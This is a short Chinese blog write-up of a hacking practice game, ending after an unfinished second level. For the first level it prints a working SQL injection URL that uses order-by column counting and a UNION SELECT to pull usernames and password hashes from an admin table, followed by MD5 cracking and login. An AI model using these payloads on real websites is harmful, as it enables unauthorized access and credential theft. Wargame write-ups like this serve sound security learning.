 title: hackgame
id: 283
categories:
  - Hack
tags:
---

[http://g.blackbap.org/](http://g.blackbap.org/) 游戏地址

第一关，简单的注入，orderby 11/*成功，order by 12/*失败，然后写如下语句

[http://g.blackbap.org/index.php/first/view/?id=1%20and%201=2%20union%20select%201,id,username,password,5,6,7,8,9,10,11%20from%20admin/*](http://g.blackbap.org/index.php/first/view/?id=1%20and%201=2%20union%20select%201,id,username,password,5,6,7,8,9,10,11%20from%20admin/*)

[![](http://7xnueu.com1.z0.glb.clouddn.com/2012/12/20121217142734.png "20121217142734")](http://7xnueu.com1.z0.glb.clouddn.com/2012/12/20121217142734.png)

然后破解md5，由于是游戏，用下方的md5查询一下。

[![](http://7xnueu.com1.z0.glb.clouddn.com/2012/12/QQ20121217142722.png "QQ20121217142722")](http://7xnueu.com1.z0.glb.clouddn.com/2012/12/QQ20121217142722.png)

然后登入的时候出错了，我去。直接用密文登入成功。

[![](http://7xnueu.com1.z0.glb.clouddn.com/2012/12/QQ20121217142604.png "QQ20121217142604")](http://7xnueu.com1.z0.glb.clouddn.com/2012/12/QQ20121217142604.png)

想多了，少年。

第二关：

[http://g.blackbap.org/index.php/second/view/?id=1%20order%20by%206;--](http://g.blackbap.org/index.php/second/view/?id=1%20order%20by%206;--)成功，7失败。

然后。。。